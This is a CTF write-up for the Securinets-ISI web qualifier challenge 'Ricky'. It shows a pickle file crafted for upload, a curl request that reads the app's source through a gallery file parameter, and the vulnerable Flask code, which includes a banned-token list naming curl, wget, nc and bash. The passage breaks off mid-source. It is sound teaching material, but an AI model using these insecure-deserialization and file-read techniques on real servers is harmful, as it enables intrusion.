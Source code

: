 # Writeups Web Quals/25 - Securinets-ISI
**You can find all tasks files up above in the same repo**

## I. Ricky
Acceding the first page we can see that we can upload any file to the server but we get redirected to a Rick and Morty video.
This hints to `pickle` library or to upload a `.pkl` file
we can try to upload a malicious file with this content:
```python
malicious_file= "exploit.pkl"
pickle.dump("cat flag.txt", open(malicious_file, "wb"))
```
but since there's no output returned we try more things in other pages, but we keep this in mind
Passing to `/gallery`, we find a hint **You can keep on watching our gallery or you can check other files in this gallery, by a simple `?`**

so we try `curl http://98.66.180.82:1024/gallery\?file=/app/app.py`
to get the source code of app.py
```python
from flask import Flask, request, render_template, redirect
import pickle
import os

app = Flask(__name__)

@app.route('/')

def home():
    return render_template("index.html")

@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        return render_template("result.html", message="No file uploaded, ye scallywag!")
    file = request.files['file']
    if file.filename == '':
        return render_template("result.html", message="No file selected, ye landlubber!")
    if not file.filename.lower().endswith('.pkl'):
        return redirect("https://www.youtube.com/watch?v=tZp8sY06Qoc")
    try:
        data = pickle.loads(file.read())
        print(f"Received command: {data}")
        if not isinstance(data, str):
            return render_template("result.html", message="Invalid input format, matey!")
        command = data.strip()
        banned_tokens = ["rm", "mv", "cat", "chmod", "chown", "wget", "curl", "python", "bash", "sh","nc", "netcat", ";", "|", "&&", "`", "$(", "sudo", "dd", "<", "||", "exec","open", "system", "ls", "find", "tar", "zip", "unzip", "rmdir", "unlink","unlinkat", "rename", "renameat", "remove", "removeat", ".."]
        for token in banned_tokens:
            if token in command:
                return render_template("result.html", message=f"Invalid command! Banned token found: {token}")
        if command.startswith("cp "):
            parts = command.split()
            if len(parts) != 3:
                return render_template("result.html", message="Invalid cp command format. Must be: cp <source> <destination>")
            _, source, destination = parts
            if not destination.startswith("/tmp/"):
                return render_template("result.html", message="You can only copy files into /tmp!")   
```